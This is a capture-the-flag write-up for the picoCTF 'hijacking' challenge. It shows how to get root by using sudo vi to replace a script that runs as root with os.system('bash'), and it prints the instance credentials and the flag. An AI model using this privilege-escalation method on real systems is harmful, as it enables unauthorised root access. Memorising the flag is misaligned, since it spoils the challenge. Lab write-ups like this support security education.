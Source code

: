 # hijacking
## Description
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.

Additional details will be available after launching your challenge instance.
## Solution
After launching instance, we get credentials in the format:
```
saturn.picoctf.net 50680
Username: picoctf
Password: 16IiP0AsuU
```
On running the ssh client on WSL using
```
ssh picoctf@saturn.picoctf.net -p 50680
```
and entering the password, we have access to some files in which we have to find the hidden flag. The sudo -l lists out the permissions we have for accessing files in the current system.
```
(ALL) /usr/bin/vi
(root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```
On running
```
sudo vi server.py
```
and entering password, we get to edit the server.py file, which contains some python code.

On clearing the code, we replace it with
```
import os
os.system("bash")
```
and save it using
```
:wq
```
Now if we run the server.py file using
```
sudo /usr/bin/python3 /home/picoctf/.server.py
```
we get root access to the files.
## Answer
Now if we browse thorugh the files, we find the .flalg.txt file, which we can print using
```
cat .flag.txt
```
which finally gives the flag as
```
picoCTF{g00d_k1tty!_n1c3_k1tty!_7c0821f5}
```
